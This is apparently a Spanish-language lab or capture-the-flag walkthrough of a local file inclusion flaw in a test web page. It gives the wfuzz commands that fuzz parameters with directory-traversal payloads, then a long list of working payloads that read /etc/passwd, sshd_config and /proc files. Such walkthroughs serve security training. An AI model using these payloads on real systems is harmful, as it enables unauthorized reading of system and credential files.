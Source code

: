 Tenemos lo siguiente que parece que esta esperando un pagaina o un nombre de usuario:
```bash
Please provide a page or a username.
```

Ahora investigare si es que esta realizando una llamada bajo un parametro:
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u "http://172.17.0.2/vulnerable.php?FUZZ=../../../etc/passwd" --hl=1
```

Vemos que es vulnerable a **LFI**
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://172.17.0.2/vulnerable.php?page=FUZZ" --hw=0
```

Tenemos estas posibilidades de incluir archivos del sistema:
```bash
"/etc/group"                                                                       
"/etc/fstab"                                                                       
"/etc/apt/sources.list"                                                            
"/etc/apache2/apache2.conf"                                                        
"/etc/hosts.deny"                                                                  
"../../../../../../../../../../../../etc/hosts"                                    
"/etc/hosts.allow"                                                                 
"/etc/hosts"                                                                       
"../../../../../../../../../../../../../../../../etc/passwd"                       
"/etc/init.d/apache2"                                                              
"../../../../../../../../../etc/passwd"                                            
"../../../../../../../../etc/passwd"                                               
"../../../../../../../../../../etc/passwd"                                         
"../../../../../../../../../../../../../etc/passwd"                                
"../../../../../../../../../../../etc/passwd"                                      
"../../../../../../../../../../../../../../etc/passwd"                             
"../../../../../../../../../../../../etc/passwd"                                   
"../../../../../../../../../../../../../../../../../etc/passwd"                    
"/etc/passwd"                                                                      
"../../../../../../../../../../../../../../../../../../../../etc/passwd"           
"../../../../../../../../../../../../../../../../../../etc/passwd"                 
"../../../../../../../../../../../../../../../../../../../../../etc/passwd"        
"../../../../../../../../../../../../../../../etc/passwd"                          
"../../../../../../../../../../../../../../../../../../../../../../etc/passwd"     
"../../../../../../../../../../../../../../../../../../../etc/passwd"              
"/../../../../../../../../../../etc/passwd"                                        
"/./././././././././././etc/passwd"                                                
"/etc/nsswitch.conf"                                                               
"../../../../../etc/passwd"                                                        
"/etc/issue"                                                                       
"../../../../../../../etc/passwd"                                                  
"../../../../../../etc/passwd&=%3C%3C%3C%3C"                                       
"../../../etc/passwd"                                                              
"../../../../../../etc/passwd"                                                     
"../../../../etc/passwd"                                                           
"/etc/resolv.conf"                                                                 
"/etc/ssh/sshd_config"                                                             
"/etc/rpc"                                                                         
"/proc/mounts"                                                                     
"/proc/version"                                                                    
"/proc/partitions"                                                                 
"/proc/net/route"                                                                  
"/proc/loadavg"                                                                    
"/proc/net/dev"                                                                    
"/proc/meminfo"                                                                    
"/proc/cpuinfo"                                                                    
"/proc/net/arp"                                                                    
```